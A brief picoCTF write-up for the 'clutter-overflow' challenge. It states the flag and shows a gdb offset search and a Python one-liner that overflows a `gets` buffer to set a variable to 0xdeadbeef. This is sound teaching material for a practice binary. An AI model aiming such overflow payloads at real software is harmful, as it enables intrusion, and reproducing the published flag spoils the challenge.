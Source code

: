 # clutter-overflow

(flag: picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}) <br/>
This one was difficult as well, especially with implementing the buffer exploition of `gets` in the source file `chall.c`.
We see that the local variable `code` is stored in `$rbp - 0x8`. We must use a string longer than 256 bytes (0x100), which is the length of the buffer shown in the source code. 
```
(gdb)  pattern offset $rbp
Searching for '$rbp'
Found at offset 272 (little-endian search) likely
```
We need 272 bytes to control `$rbp`. Thus, we need 264 (272 - 8) to reach the variable. After the 264 characters, we must put `0xdeadbeef` in little-endian format to pass the check:
```
(python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | ./chall
```
